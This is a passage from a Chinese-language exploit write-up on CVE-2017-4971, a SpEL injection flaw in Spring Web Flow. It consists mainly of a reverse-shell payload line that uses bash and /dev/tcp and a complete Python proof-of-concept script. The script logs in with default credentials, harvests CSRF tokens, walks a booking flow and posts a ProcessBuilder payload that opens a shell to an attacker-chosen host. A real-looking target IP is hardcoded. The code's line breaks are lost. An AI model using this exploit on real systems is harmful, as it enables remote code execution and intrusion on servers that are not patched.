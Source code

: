 添加 payload

```
&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/攻击机IP/端口号+0>%261")).start()=yicunyiye
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0t8jUyzzDQ6poTpGKc8KLUiaCLy4OgTtegB7gI10zeGl8DN6mZib3hkHQ/640?wx_fmt=png)

#### 3.2 cve-2017-4971 poc 编写

这里需要注意下就是登录以及后面的 post 数据包都采用了 csrf_token，只需要用 request.Session() 固定下就，然后 post 前先 get url 正则匹配下 token 就行了

注意 python 编译器把空格变成 +，我就在这里搞了好久 --，结果发现被转义了

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0M0L9wfgaUxYmQ1zj6ibnN5CVq3k2iczzlLP2jG5rQGbuQrhoQI93icUicQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0eLeEaHDP7crjJCiadrYTAicJXSAJIVhwTib0iaxGzateV8z8G8Yfx2AXOA/640?wx_fmt=png)

```
import requestsimport reimport timeimport pyfigletimport datetimeascii_banner = pyfiglet.figlet_format("CVE-2017-4971")print(ascii_banner)print("blog:https://www.cnblogs.com/yicunyiye/")print("-" * 50)#用户登录时候的url# url = input("attack url：")url = "http://49.235.54.135:24924/"print("-" * 50)Post_login_url = url + "/loginProcess"#输入账号密码print("default:keith,erwin,jeremy,scott")# username = input("username:")username = "keith"print("default:melbourne,leuven,atlanta,rochester")# password = input("password:")password = "melbourne"#用户登录时候需要的csrf_tokensession = requests.Session()login_csrf_url = url + '/login'res_login = session.get(login_csrf_url)re_login_csrf = re.compile('(.*?)"',re.I|re.S)login_token = re_login_csrf.findall(res_login.text)[0]#登录login_data = {    "username":username,    "password":password,    "_csrf":login_token}login = session.post(Post_login_url,data=login_data,allow_redirects=False)try:    login_flag = str(login.headers)    if('JSESSIONID' in login_flag):        print("-" * 50)        print("[+]login success!")        print("-" * 50)        response = session.get(url+'/hotels/1')        Location = session.get(url+'/hotels/booking?hotelId=1',allow_redirects=False)        Location = Location.headers['Location']        #填写hotel信息的url        hotel_info_url = url+Location        hotel_page = session.get(hotel_info_url)        re_post_csrf = re.compile('(.*?)"', re.I | re.S)        post_token = re_post_csrf.findall(hotel_page.text)[0]        today_add_1 = (datetime.datetime.now() + datetime.timedelta(days=1)).strftime("%m-%d-%Y")        today_reduce_1 = (datetime.datetime.now() + datetime.timedelta(days=-1)).strftime("%m-%d-%Y")        today_add_3 = (datetime.datetime.now() + datetime.timedelta(days=3)).strftime("%m-%d-%Y")        post_data = {            "checkinDate": today_add_1,            "checkoutDate": today_add_1,            "beds": "1",            "smoking": "false",            "_amenities": "on",            "_amenities": "on",            "_amenities": "on",            "creditCard": "1231111111111111",            "creditCardName": "11",            "creditCardExpiryMonth": "1",            "creditCardExpiryYear": "1",            "_csrf": post_token,            "_eventId_proceed": "_eventId_proceed",            "ajaxSource": "proceed"        }        Spring_Redirec_URL = session.post(hotel_info_url,data=post_data)        Spring_Redirec_URL = Spring_Redirec_URL.headers['Spring-Redirect-URL']        confirm_url = url + Spring_Redirec_URL        # res = session.get(confirm_url)        reverse_ip = input("reverse ip:")        reverse_port = input("reverse port:")        confirm_data = {            '_eventId_confirm':'',            '_csrf':post_token,            '_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/'+reverse_ip+'/'+reverse_port+' 0>&1")).start()':'yicunyiye'        }        res = session.get(confirm_url)        time.sleep(2)        payload_send = session.post(confirm_url,data=confirm_data,allow_redirects=False)        if(payload_send.status_code == 500):            print("[+]反弹shell成功!")            print("-" * 50)        else:            print("[-]反弹shell失败!")            print("-" * 50)    else:        print("-" * 50)        print("[-]login failed!")        print("-" * 50)except:    print("bye~~")
```
